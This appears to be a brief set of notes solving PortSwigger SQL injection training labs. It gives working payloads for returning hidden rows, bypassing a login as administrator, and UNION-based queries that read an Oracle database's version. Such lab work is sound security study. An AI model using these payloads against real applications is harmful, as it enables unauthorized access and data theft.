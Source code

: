 # SQL injection

```https://portswigger.net/web-security/sql-injection/cheat-sheet```

## Lab1: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

>**Q. SELECT * FROM products WHERE category = 'Gifts' AND released = 1 **

```sh
'+OR+1=1--
```

## Lab2: SQL injection vulnerability allowing login bypass
>**Q. To solve the lab, perform a SQL injection attack that logs in to the application as the administrator user. **

```sh
administrator'--
```
## Lab3: SQL injection attack, querying the database type and version on Oracle
```sh
'+UNION+SELECT+'abc','def'+FROM+dual--
```
```sh
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```
